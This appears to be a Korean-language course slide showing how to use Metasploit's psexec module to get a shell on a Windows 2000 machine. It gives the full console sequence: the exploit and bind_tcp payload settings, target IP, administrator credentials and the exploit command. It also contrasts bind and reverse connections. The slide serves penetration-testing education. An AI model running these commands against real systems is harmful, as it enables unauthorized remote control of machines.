

# psexec.rb 모듈을 이용한 침투
msf에서 다음과 같이 차례로 입력하여 공격을 수행
use exploit/windows/smb/psexec  (use 공격/운영체제/취약점분야/사용할모듈)
set payload windows/shell/bind_tcp (set 악성코드 타겟 운영체제/작업환경/통신방식)
set rhost 윈도우ip
set smbuser administrator
set smbpass 1234
exploit

bind_tcp: 정방향 접속 / reverse_tcp: 역방향 접속 (방화벽X)
모두 입력하면 윈도우 2000의 터미널 사용 가능

6